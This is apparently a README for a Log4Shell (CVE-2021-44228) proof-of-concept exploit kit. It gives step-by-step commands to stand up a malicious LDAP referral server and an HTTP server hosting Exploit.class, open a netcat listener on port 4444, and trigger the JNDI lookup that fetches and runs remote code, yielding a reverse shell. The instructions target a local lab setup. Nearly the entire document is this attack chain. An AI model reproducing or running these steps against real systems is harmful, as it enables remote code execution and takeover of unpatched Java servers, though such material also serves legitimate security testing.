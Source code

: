 # CVE-2021-44228 (Apache Log4j Remote Code Execution）

> [all log4j-core versions >=2.0-beta9 and <=2.14.1](https://logging.apache.org/log4j/2.x/security.html)

## Requirements

Java 8 required.

## Usage

Download this project.

```
git clone https://github.com/kimberleyhallifax/log4shell.git
```

### 1. Using Docker

Build project.

```
./build.sh
# Runs the following commands:
#   cd CVE-2021-44228-Apache-Log4j-Rce/
#   javac Exploit.java
#   mvn clean package
#   docker build -t server . # Build python server docker image
#   cd ../marshalsec/
#   docker build -t japp . # Build ldap server docker image
#   cd ..
```

Run httpserver.

```
cd CVE-2021-44228-Apache-Log4j-Rce/
./run.sh
# Runs the following command:
#   docker run --rm -it --name server -p 8888:8888 server
```

Run vulnerable jndi LDAP server.

```
cd marshalsec/
./run.sh
# Runs the following command
#   docker run --rm -it --name japp -p 1389:1389 japp
```

Create listener on port 4444.

```
nc -nlvp 4444
```

Run payload to execute reverse shell connection to our listener.

```
cd CVE-2021-44228-Apache-Log4j-Rce/
java -cp target/log4j-rce-1.0-SNAPSHOT-all.jar log4j
```

You will now be able to execute shell commands from your listener.

### 2. Running everything locally

Compile exploit code and run python web server.

```
cd CVE-2021-44228-Apache-Log4j-Rce/
javac Exploit.java

python -m SimpleHTTPServer 8888   # Python2
python3 -m http.server 8888       # Python3

# Make sure python webserver is running the same directory as Exploit.class, to test
  curl -I 127.0.0.1:8888/Exploit.class
```

Build and run the vulnerable jndi LDAP server.

```
cd marshalsec/
mvn clean package -DskipTests
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8888/#Exploit"
```

Build and run the activation code (simulate an log4j attack on a vulnerable java web server).

```
cd CVE-2021-44228-Apache-Log4j-Rce/
mvn clean package
java -cp target/log4j-rce-1.0-SNAPSHOT-all.jar log4j
```

## Credits

https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce
https://github.com/mbechler/marshalsec